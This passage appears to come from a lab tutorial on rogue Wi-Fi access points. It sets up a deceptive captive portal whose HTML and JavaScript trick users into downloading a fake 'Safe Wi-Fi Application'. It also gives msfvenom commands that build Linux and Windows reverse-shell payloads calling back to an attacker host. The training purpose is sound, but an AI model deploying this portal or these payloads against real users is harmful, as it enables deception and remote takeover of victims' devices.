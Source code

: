 <p>Finally, we should restart the Apache service to apply the changes.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo service apache2 restart
</code></pre>
<hr/>
<h3>2. Creating our Malware Captive Portal</h3>
<p>To create a malicious captive portal, we will use the following code in <code>index.html</code> located at <code>/var/www/html</code>. This HTML code creates a malicious captive portal designed to trick users into downloading a fake <code>Safe Wi-Fi Application</code>. When the user clicks the download button, a malicious ELF payload (<code>SafeWi-Fi.elf</code>) is downloaded onto their device.</p>
<pre><code class="language-html">  &lt;body&gt;
    &lt;div class="centered"&gt;
        &lt;img src="logo-htb.svg"&gt;&lt;/img&gt;
        &lt;h1 class="content-title spacing"&gt;Please Download the Safe Wi-Fi Application to Access this Network&lt;/h1&gt;
        &lt;button class="submit-button spacing" id="download-button"&gt; Safe Wi-Fi Extension Version 4.6&lt;/button&gt;
    &lt;/div&gt;
    &lt;script&gt;
      const downloadButton = document.getElementById('download-button');

      downloadButton.addEventListener('click', () =&gt; {
        const fileUrl = '/SafeWi-Fi.elf'; // The payload we need to generate
        const fileName = 'SafeWi-Fi.elf'; 

        // Create a temporary anchor element to trigger the download
        const downloadLink = document.createElement('a');
        downloadLink.href = fileUrl;
        downloadLink.download = fileName;

        // Append the anchor element to the document and trigger the download
        document.body.appendChild(downloadLink);
        downloadLink.click();
        document.body.removeChild(downloadLink);
      });
    &lt;/script&gt;
  &lt;/body&gt;
</code></pre>
<p>In our lab environment, where the target (client) is running Linux, we can generate a reverse shell payload using msfvenom. The following command creates a malicious payload specifically for Linux:</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf &gt; SafeWi-Fi.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
</code></pre>
<p>Additionally for targets using Windows OS, the corresponding command would be:</p>
<pre><code class="language-shell-session">[!bash!]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe &gt; SafeWi-Fi.exe
